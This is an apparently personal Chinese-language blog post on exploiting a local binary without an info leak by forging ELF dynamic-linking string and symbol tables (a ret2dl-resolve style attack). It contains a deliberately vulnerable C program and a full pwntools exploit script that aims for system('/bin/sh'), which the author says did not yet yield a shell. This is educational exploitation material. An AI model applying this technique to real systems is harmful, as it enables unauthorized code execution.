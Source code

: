 ```yaml
---
title: exploit without info leak 
date: 2017-02-15 22:28:37
categories: pwn
---
```


# 不依靠信息泄漏来exploit

## 信息介绍

 安全攻防的升级从堆栈执行shellcode到NX不可执行，从ret2libc到ASLR地址随机化，从dyn sym strda到RELRO, 到攻击者的内存泄漏内存地址不断进化着。
目前攻击者在控制pc指针后，一般分两步来完成后续的漏洞利用。第一步通过信息泄漏漏洞leak出内存布局，第二部则是精心构造具有艺术感的expoit gadget。
 但如果有些程序没有可以泄漏内存的信息的漏洞怎么办？如下面的代码，除了明显的pc指针控制漏洞外，没有引入任何输出函数，导致后续没办法输出内存信息。
 
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulfunc()
{
    char sbuf[10];
    read(0, sbuf, 60);
}

int main()
{
    vulfunc();
    exit(0);
    return 0;
}
```
在usenix大会上,ucsb-seclab分享了他们的攻击方法。在Linux上，为了节省静态库占用空间，和保证动态库的稳定工作，引入了一种plt lazy binding的技术。一个普通的ELF文件通常包含了下面一些段
![](/images/exploit without info leak/1.png)
而那些从外部动态库引入的函数则主要以字符串信息保存在ELF中，而它们正真的地址则在程序第一次调用它们时才从系统获取到。这个过程中利用PLT来完成延迟绑定，在第一次函数地址重定位后，函数地址将被写入GOT表中，此后再调用该函数将查询GOT表来跳转。（参考于 《程序员的自我修养 --链接、装载与库》）

## 攻击思路

那么这里就有个想法，如果修改了内存中保存的函数名，比如把"printf"这个字符串改为“execv“等关键函数，那么在第一次调用printf("/bin/sh")时，真正执行了execv("/bin/sh")，从而get shell。
但ELF相关开发小组早就做了保护，保存的函数名等字符串段在载入内存后是仅可读的，阻止攻击者通过篡改内存中函数名来获取到其他函数在内存中的地址。

但同样的思路，换个方法，就可以成功绕过防护，这里就要介绍写ELF中信息的分布和函数地址的动态重定位了了。
1. .dynstr段中保存了动态引入的函数名字符串
2. .dynsym段中则是记录了不同动态引入函数的其他信息，并且st_name保存了.dynstr中对应的函数名称的下标号
    struct {
        st_name
        ...
    }
3. .rel.plt段则是用来记录引入函数的地址信息，如果在动态链接器获取了函数地址后，r_offset保存解析后的符号地址被写入内存中的位置，而r_info保存.dynsym中对应的函数信息的下标号
    struct {
        r_offset
        r_info
    }
4. .dynamic段则保存了上面各个段的地址，负责地址的查询工作

而函数地址则由got表中第二个标号中的_dl_runtime_resolve(link_map_obj, reloc_index)函数指针来获取，获取到的地址则保存到got表中，那么就可以衍生出下面几种不同情况下的攻击方法：

## 攻击方法
### 部分RELRO保护 1.
在内存可写的段中构造伪造的.dynstr段信息，将其中的最后要用的函数名改为自己想要的函数名，比如execv 替换printf
接着将该段内存的地址覆盖写入.dynmaic段中保存.dynstr地址的区域，接着再向内存中写入shellcode，接着给printf函数传入shellcode，那么当printf是第一次被调用时，将从伪造的.dynstr段中读取到“execv”函数名，接着从内存中获取到execv函数地址存入printf函数对应的got表中，最后跳转回去再执行到的就是execv(shellcode)了，成功get shell。
### 部分RELRO保护 2.
直接一次性伪造.dynstr, .dynsym, .rel.plt三个段，填入自己想获取的函数名称信息，最后将伪造的.rel.plt地址传入_dl_runtime_resolve()中，最后会顺着地址将伪造的.dynstr段中的函数名解析，获取到地址，保存到对应标号的GOT表中，后续就是同样利用了。
### 完全RELRO保护 3.
当采用完全RELRO保护时，所有重定位将在加载时全部完成，没有plt lazy binding, 所以要绕过保护需要采用不同的方法。
伪造.dynamic, .dynstr, 接着通过DT_DEBUG来解析r_debug中保存的r_map信息，r_map则保存着link_map链表的头部指针， 覆盖link_map的l_info指向伪造的.dynamic段中，后续相同利用。

## 攻击测试
先贴exp：

```
#!/usr/bin/python

from pwn import *

vulFunAddr = 0x0804845b
mainFunAddr = 0x08048476
readpltAddr = 0x08048310
exitpltAddr = 0x08048340
putspltAddr = 0x08048320
dynstrInDynamicAddr = 0x080496a0
dynstrAddr = 0x0804821c
bssAddr = 0x08049770
dynstrListAddr = [0x0804821c, 0x0804821d, 0x08048227, 0x08048236, 0x0804823b, 0x08048240, 0x08048245, 0x08048257, 0x08048266, 0x08048270]
strTable = ['', 'libc.so.6', '_IO_stdin_used', 'puts', 'exit', 'read', '__libc_start_main', '__gmon_start__', 'GLIBC_2.0', '']
strTable[4] = 'system' #use 'system' in place of 'exit'
log.info('strTable = ')
log.info(strTable)

expOffset = 22 
log.info("* [ok]: exploit offset is " + str(expOffset))
binShellStr = '/bin/sh\0'
payloadHead = 'a'*expOffset

def showDynStr():
    log.info("=======================")
    for i in dynstrListAddr:
        payload = payloadHead + p32(putspltAddr) + p32(vulFunAddr) + p32(i)
        p.send(payload)
        str = p.recv()
        #print str
    log.info("=======================")


def writeStrTableToBSS(baseAddr):
    tempBSS = baseAddr
    for i in strTable:
        #str = i + chr(0)
        str = i + chr(0)
        payloadTemp = payloadHead + p32(readpltAddr) + p32(vulFunAddr) + p32(0) + p32(tempBSS) + p32(len(str)+1)
        p.send(payloadTemp)
        log.info('* [ready]: write str = %s ' %(str))
        p.sendline(str)
        #set new bss offset
        tempBSS = tempBSS + len(str)

p = process('./a.out')
#context.log_level = 'debug'
#gdb.attach(p, execute='b *0x0804845b\nb *0x08048476\nb *0x08048340\n')

p.recvline()

log.info("* [ok]: show dynstr strtable")
showDynStr()

#first: write '/bin/sh\0' to BSS seg
payload1 = payloadHead + p32(readpltAddr) + p32(vulFunAddr) + p32(0) + p32(bssAddr) + p32(8)
p.send(payload1)
p.send(binShellStr)
log.info("* [ok]: write '/bin/sh\0' to .bss seg successed!")

#second: write StrTable to BSS seg
dynstrInBSSAddr = bssAddr + len(binShellStr)
writeStrTableToBSS(dynstrInBSSAddr)
log.info("* [ok]: write self StrTable to .bss seg successed!")


log.info("* [ok]: show dynstr strtable")
showDynStr()

#third: write new StrTable address to dynamic d_val addr
payload2 = payloadHead + p32(readpltAddr) + p32(vulFunAddr) + p32(0) + p32(dynstrInDynamicAddr) + p32(4)
p.send(payload2)
p.send(p32(dynstrInBSSAddr))
log.info("* [ok]: write new StrTable to dynamic d_var addr successed!")

log.info("* [info]: ensure '/bin/sh' in .bss")
payload3 = payloadHead + p32(putspltAddr) + p32(vulFunAddr) + p32(bssAddr)
p.send(payload3)
str = p.recv()
print str

#forth: exit, and exit@plt('/bin/sh') -> system('/bin/sh')
#payload3 = payloadHead + p32(exitpltAddr) + p32(mainFunAddr) + p32(bssAddr)
log.info("* [ok]: show strTable in .bss")
payload3 = payloadHead + p32(putspltAddr) + p32(vulFunAddr) + p32(dynstrInBSSAddr)
p.send(payload3)
str = p.recv()
log.info("=======================")
print str
log.info("=======================")
payload3 = payloadHead + p32(exitpltAddr) + p32(vulFunAddr) + p32(bssAddr)
p.send(payload3)
log.info("* [waiting]: exit@plt('/bin/sh') -> system('/bin/sh')")

p.interactive()
```

在测试结果时，故意将函数名填错后，程序运行提示重定位错误
![](/images/exploit without info leak/2.jpeg)
修改正确后
![](/images/exploit without info leak/3.png)

但。。。。最后没得到shell。。不知道是我调用有问题。。还是。。算了，记日记，以后再调试。。。

